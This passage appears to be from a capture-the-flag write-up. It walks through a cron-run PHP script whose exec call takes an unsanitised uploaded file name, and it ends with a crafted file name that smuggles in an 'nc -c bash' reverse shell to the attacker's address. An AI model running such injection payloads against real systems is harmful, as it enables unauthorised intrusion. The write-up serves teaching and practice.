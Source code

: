 {% highlight shell %}
sh-4.2$ cat cron	
cat crontab.guly 
*/3 * * * * php /home/guly/check_attack.php
{% endhighlight %}

<p>Now checking what the <code>check_attack.php</code> script actually does...</p>

{% highlight php %}
sh-4.2$ cat check	
cat check_attack.php 
<?php
require '/var/www/html/lib.php';
$path = '/var/www/html/uploads/';
$logpath = '/tmp/attack.log';
$to = 'guly';
$msg= '';
$headers = "X-Mailer: check_attack.php\r\n";

$files = array();
$files = preg_grep('/^([^.])/', scandir($path));

foreach ($files as $key => $value) {
	$msg='';
  if ($value == 'index.html') {
	continue;
  }
  #echo "-------------\n";

  #print "check: $value\n";
  list ($name,$ext) = getnameCheck($value);
  $check = check_ip($name,$value);

  if (!($check[0])) {
    echo "attack!\n";
    # todo: attach file
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);

    exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");
  }
}

?>
{% endhighlight %}

<p>The interesting part is the <code>exec</code> line where we control the contents of <code>$value</code>. Carefully crafting a test file we should be able to arbitrarily execute code as the user <code>guly</code>. Let's give a shot.</p>

{% highlight shell %}
sh-4.2$ touch "no; nc -c bash 10.10.xx.xx 31337"
touch "no; nc -c bash 10.10.xx.xx 31337"
{% endhighlight %}
